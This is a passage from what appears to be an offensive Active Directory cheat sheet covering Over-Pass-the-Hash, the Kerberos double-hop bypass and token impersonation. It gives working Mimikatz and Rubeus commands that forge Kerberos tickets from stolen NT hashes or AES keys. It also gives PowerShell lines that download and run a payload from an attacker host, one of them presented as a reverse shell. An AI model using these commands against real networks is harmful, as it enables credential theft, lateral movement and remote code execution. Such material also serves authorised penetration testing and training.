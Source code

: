 ### Over Pass The Hash / Pass The Key

Generate Kerberos TGT from hashes (or AES keys)

```powershell
#With Mimikat
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.local /rc4:<nthash> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.local /aes256:<aes_key> /run:powershell.exe"'

#With Rubeus
.\Rubeus.exe asktgt /domain:domain.local /user:Administrator /rc4:<nthash> /ptt /opsec
.\Rubeus.exe asktgt /domain:domain.local /user:Administrator /aes256:<aes_key> /ptt /opsec
```

#### Bypass Kerberos Double Hop

By default, Kerberos **doesn't** permise to run a PSSession into a PSSession (or Invoke-Command into a PSSession, or whatever)

This can be bypassed with Mimikatz, by running a reverse shell in a **Over-Pass-the-Hash** from a PSSession

```powershell
$Contents = "powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://<attacker_IP>/Invoke-HelloWorld.ps1'))"
Out-File -Encoding Ascii -InputObject $Contents -FilePath ./reverse.bat
Invoke-Mimikatz -Command '"sekurlsa::pth /user:user1 /domain:domain.local /ntlm:<nthash> /run:.\reverse.bat"'
```

In the new shell it is **not** possible to run an **Enter-PSSession**, but it is possible to create a **New-PSSession** and run **Invoke-Command** into this new session

```powershell
$sess = New-PSSession <target>
Invoke-Command -ScriptBlock{whoami;hostname} -Session $sess

Invoke-Command -ScriptBlock{mkdir /tmp; iwr http://<attacker_IP>/Invoke-HelloWorld.ps1 -o /tmp/Invoke-HelloWorld.ps1; . \tmp\Invoke-HelloWorld.ps1} -Session $sess
```

### Token manipulation

#### Standard token impersonation

* It is possible to use/impersonate tokens available on a machine
* We can use `Invoke-TokenManipulation` from PowerSploit or Incognito (Meterpreter) for token impersonation
* Administrative privileges are required to adjust token privileges
* List all tokens

```powershell
#List all tokens on the machine
Invoke-TokenManipulation -ShowAll

#List all unique, usable tokens on the machine
Invoke-TokenManipulation -Enumerate
```
